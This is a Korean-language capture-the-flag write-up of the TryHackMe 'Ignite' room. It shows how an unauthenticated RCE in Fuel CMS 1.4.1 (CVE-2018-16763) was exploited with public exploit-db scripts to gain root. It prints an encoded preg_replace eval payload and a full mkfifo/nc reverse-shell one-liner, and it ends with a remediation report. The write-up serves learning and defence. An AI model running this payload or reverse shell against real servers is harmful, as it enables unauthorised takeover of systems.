


# Ignite

## 1. 개요 (Overview)
- 룸 링크: https://tryhackme.com/room/ignite
- 설명: A new start-up has a few issues with their web server.
- 목표: root 권한 획득
- 찾아야 할 데이터: User.txt, Root.txt
- 난이도: Easy

## 2. 정보수집 (Reconnaissance)
1. `nmap -sV -sC 10.146.141.47 > scan_res` 열린 포트에 대한 정보 수집 진행
    ```bash
    Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-26 03:16 -0400
    Nmap scan report for 10.146.141.47
    Host is up (0.14s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    | http-robots.txt: 1 disallowed entry 
    |_/fuel/
    |_http-title: Welcome to FUEL CMS
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 16.71 seconds
    ```
    - 열린 포트는 `80/tcp`로 `http`이며 `Apache httpd 2.4.18`
2. 추가적으로 정보를 얻기 위해 웹 서비스 접근
    
    홈페이지에서 얻을 수 있는 정보는 다음과 같다.
    1. `Fuel CMS version 1.4`
    2. `php` 사용
    3. `database.php`의 위치
    4. admin 계정과 비밀번호
3. `/fuel`로 이동
    
    
    어드민 계정으로 접근 성공
    별 다른 수확은 없었음

## 3. 취약점 분석 (Vulnerability Analysis)
얻은 정보는 다음과 같다.
- `Apache httpd 2.4.18` 사용
- `Fuel CMS Version 1.4` 사용
- `database.php`의 위치

취약점의 정보를 찾기 위해 `searchsploit` 사용
1. `searchsploit Apache httpd 2.4.18` 실행
    ```bash
    Exploits: No Results
    Shellcodes: No Results
    ```

2. `searchsploit Fuel CMS 1.4` 실행
    ```bash
    ------------------------------------------------------------------ -------------------------
    Exploit Title                                                     |  Path
    ------------------------------------------------------------------ -------------------------
    fuel CMS 1.4.1 - Remote Code Execution (1)                        | linux/webapps/47138.py
    Fuel CMS 1.4.1 - Remote Code Execution (2)                        | php/webapps/49487.rb
    Fuel CMS 1.4.1 - Remote Code Execution (3)                        | php/webapps/50477.py
    Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)       | php/webapps/50523.txt
    Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)              | php/webapps/48741.txt
    Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)  | php/webapps/48778.txt
    ------------------------------------------------------------------ -------------------------
    Shellcodes: No Results
    ```
    취약점 발견 했으며, RCE를 사용해 쉘을 탈취해보도록 할 예정

## 4. 익스플로잇 (Exploitation)
3개 전부 가져올 예정
1. `cp /usr/share/exploitdb/exploits/linux/webapps/47138.py ./exploit1.py`
2. `cp /usr/share/exploitdb/exploits/php/webapps/49487.rb ./exploit2.rb`
3. `cp /usr/share/exploitdb/exploits/php/webapps/50477.py ./exploit3.py`

### 하나씩 실행 시작
#### 1. `python exploit1.py`
```bash
    File "/root/playground/exploit1.py", line 34
        print r.text[0:dup]
        ^^^^^^^^^^^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?
```
보통 `python(3)`인 경우 `print()`가 맞지만 아닌 형태로 `python2` 가능성을 확인

`python2 exploit1.py` 실행
```bash
cmd:ls -al
Traceback (most recent call last):
  File "exploit1.py", line 26, in <module>
    r = requests.get(burp0_url, proxies=proxy)
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/api.py", line 76, in get
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/api.py", line 61, in request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/sessions.py", line 530, in request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/sessions.py", line 643, in send
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/adapters.py", line 510, in send
requests.exceptions.ProxyError: HTTPConnectionPool(host='127.0.0.1', port=8080): Max retries exceeded with url: http://127.0.0.1:8881/fuel/pages/select/?filter=%27%2Bpi%28print%28%24a%3D%27system%27%29%29%2B%24a%28%27ls%20-al%27%29%2B%27 (Caused by ProxyError('Cannot connect to proxy.', NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7f98e542b890>: Failed to establish a new connection: [Errno 111] Connection refused',)))
```
`cmd:`가 나타나서 `ls -al`을 실행
파일 확인 진행 결과 `url`과 `proxy` 변경이 필요한 것을 확인

#### 2. `ruby exploit2.rb`
```bash
Usage:
  exploit2.rb <url> <cmd>
  exploit2.rb -h | --help
```
`ruby exploit2.rb http://10.146.141.47/ ls` 실행
```bash
README.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt
```
명령어 실행 가능

계속 명령어 실행 가능하도록 하기 위해 `Reverse Shell` 실행 진행
리버스쉘 제너레이터 사이트를 들어가 `nc mkfifo`로 진행
공격자 로컬에서 `nc -nlvp 9999` 실행
`exploit2.rb`에 제너레이터에서 생성한 명령어 추가
`connect to [192.168.129.184] from (UNKNOWN) [192.168.129.184] 44810`
공격자 pc에서 진입 성공
```bash
# whoami
root
```
권한 획득완료

추가로 2번째 `ruby` 스크립트로 충분히 해결되었기 때문에 강의에서 사용된 `exploit3.py`는 시도하지 않음.

## 5. 포스트 익스플로잇 (Post-Exploitation)
별 다른 작업 없이 root 권한 획득
1. `find / -name "*.txt" 2>/dev/null`: 필요한 파일에 접근

## 6. 보고서 (Report)
> `CVE-2018-16763`

### 요약 (Summary)
| 항목 | 내용 |
|------|------|
| 제품 / 영향 버전 | `Fuel CMS` / `1.4.1` 이하 |
| 영향 개요 | 인증 없이 PHP 서버에서 임의 명령을 실행할 수 있는 RCE |
| 관련 CWE | [CWE-74](https://cwe.mitre.org/data/definitions/74.html) (OS Command Injection) |
| CVSS | `3.1` 기준 `9.8 (Critical)` — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| 공개일 / 패치 버전 | 2018-09-12 / `1.4.1` 이후 패치 버전 |

### 원인 (Root Cause)
`fuel/pages/select` 컨트롤러의 `filter` 파라미터가 사용자 입력을 검증 없이 `preg_replace()`의 `/e` 수정자(modifier)로 전달함.
`/e` 수정자는 매칭된 문자열을 PHP 코드로 그대로 평가(eval) 하는 레거시 기능이라, 공격자가 만든 입력이 정규식 치환 결과가 아니라 실행 가능한 PHP 코드로 처리됨.

### 악용 조건 (Conditions)
- 인증 불필요 (익스플로잇 당시 admin 로그인 여부와 무관하게 동작)
- `/fuel/pages/select/?filter=` 엔드포인트가 외부에 노출되어 있어야 함

### 공격 흐름 (Attack Flow)
1. `searchsploit`로 `Fuel CMS 1.4.1 RCE` 공개 익스플로잇 확인
2. `exploit2.rb` 실행 → `filter` 파라미터에 `preg_replace` eval 페이로드를 담아 전송, 임의 명령(`ls -al`) 실행 성공 확인
3. 단발성 명령 실행을 안정적인 쉘로 바꾸기 위해 리버스쉘(`mkfifo` + `nc`) 페이로드를 같은 경로로 전송
4. 공격자 PC `nc` 리스너에 연결 성공, `whoami` 결과 `root` 확인 (Ignite는 웹서버가 root 권한으로 동작하는 환경이라 권한 상승 없이 바로 root 획득)

### 영향 (Impact)
웹 애플리케이션 계층을 거치지 않고 OS 명령을 직접 실행할 수 있어, 서버 전체 장악(파일 열람/변조, 추가 공격의 발판)으로 이어짐.
이번 환경에서는 웹서버 프로세스가 root로 동작해 피해 범위가 시스템 전체로 확장됨.

### 대응 방안 (Remediation)
- Fuel CMS 최신 버전으로 업그레이드 (가장 확실한 조치)
- 패치 불가 시 임시 조치
  1. 네트워크 수준 방어 (WAF 룰로 `filter` 파라미터의 PHP 코드 패턴 차단)
  2. 관리자 페이지(`/fuel`) 접근을 IP 화이트리스트 등으로 제한
  3. PHP 설정 강화
    - 가능하면 `preg_replace`의 `/e` 수정자 사용 금지
  4. 웹서버를 root가 아닌 저권한 계정으로 구동

### 본인 평가 (Assessment)
- RCE 자체도 치명적이지만, 웹서버 프로세스 권한 설정 미흡(root 구동)이 "권한 상승 단계 없이 바로 root 탈취"로 이어진 추가 요인
- 실제 운영 환경이라면 RCE 패치뿐 아니라 프로세스 권한 분리 또한 필요하다는 지점을 확인

### 참고 (References)
[NVD - CVE-2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763)

## 7. 사용 도구/명령어 정리 (Tools & Commands)
### `nmap`
`nmap`은 포트를 확인하는 오픈소스 네트워크 보안 진단 도구로 네트워크에 연결된 호스트와 서비스를 탐지하고, 그 보안 상태를 진단하기 위해 사용
- `-sV`: 열린 포트의 대해 침투 서명 데이터를 보내 응답을 분석해 소프트웨어 명과 버전을 알아내는 옵션
- `-sC`: Nmap은 NSE라는 스크립트 기능을 지원하는데 그중 `default`로 분류된 표준 스크립트들만 골라서 자동 실행하는 옵션
  - 기본 포트 스캔보다 흔적이 많이 남고 시간이 오래 걸림

### `searchsploit`
`searchsploit`은 exploitDB에 저장된 취약점들을 검색하는 명령어
저장되어 있는 exploit 코드들의 위치도 같이 공유

### `nc`
`-nlvp`: `-n`, `-l`, `-v`, `-p`의 조합
- `-n`:
  - 숫자 형태의 IP 주소만 사용하도록 강제하는 옵션
  - DNS 서버와 통신하는 과정을 생략하므로 스캔 및 연결 속도가 빨라짐
  - 네트워크 로그에 불필요한 DNS 요청 흔적이 남는 것을 방지
- `-l`:
  - 리스닝 모드로 전환하는 옵션 
  - 인바운드 연결을 수락 할 수 있는 대기 상태로 만듬
- `-v`:
  - 상세 출력 모드를 활성화해 연결 상태와 진행 과정을 터미널 창에 자세히 표시하는 옵션
  - 연결 성공 했는지 누가 접속을 시도하는지 등 상태 정보를 실시간으로 모니터링하는 목적
- `-p`:
  - 포트 번호를 명시적으로 지정하는 옵션
  - 해당 옵션 바로 뒤에 숫자로 된 포트번호를 입력하여, 해당 포트 번호로 세션을 열도록 제어

### `mkfifo`
사용 명령어 : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.129.184 9999 >/tmp/f`
리눅스 및 유닉스 계열 운영체제에서 이름 있는 파이프(FIFO, named pipe)를 생성하는 명령어
- `FIFO`: 선입선출(First In First Out)을 뜻하는 말로 Queue 형태임을 알 수 있음
리버스쉘에서의 동작: `cat /tmp/f`가 `FIFO`로 들어오는 데이터를 읽어 sh -i의 표준입력으로 전달하고, sh의 실행 결과(stdout+stderr)는 파이프를 통해 nc로 넘어가 공격자에게 전송됨.
`/tmp/f`로 리다이렉트되어 순환 구조를 완성함.
`nc`에 `-e` 옵션이 없는 경우 쉘을 직접 붙일 수 없어서 이렇게 `FIFO`로 양방향 통신을 흉내내는 방식.

## 8. 핵심 고민 (Key Takeaway)
1. 상황: RCE로 명령어 실행은 됐지만 안정적인 쉘이 아닌 단발성 명령 실행만 가능한 상태
2. 해결책: 단발성 명령 실행으로 리버스 쉘을 진행하여 안정적인 쉘을 획득
3. 고민한 지점: 강의 기준으로 `nc mkfifo`를 사용했지만 근거는 없었기에 해당 부분에 대한 성찰
4. 성찰:
    - 코드 작성하는 방식은 단발성으로 어렵다고 판단
    - scp를 통해 파일을 보내는 것이 가능 했을 수 도 있지만 강의에서는 명령어에서 바로 실행 가능한 `cmd` 형식이 빠르고 간단하다는 이유로 하지 않았을까 판단
    - 타겟의 환경에 따라 방법이 변경될 수 있다는 AI와의 대화로 이해
    - 따라서 하나의 명령어를 쓰는 것이 아닌 상황에 따라 맞는 판단을 고려해야 함
5. 후속 조치
    - 타겟의 환경에 따라 가능한 것과 불가능한 것이 존재하며, 운이 좋게 성공한 케이스인 것으로 판단
    - 따라서 다음 진행부터는 하나의 결과만을 해보는 것이 아닌 여러 방법으로 사용해보며, 많은 경험을 쌓는 것을 고려해보면 좋을 것으로 판단

---
[← 목차로](./README.md)
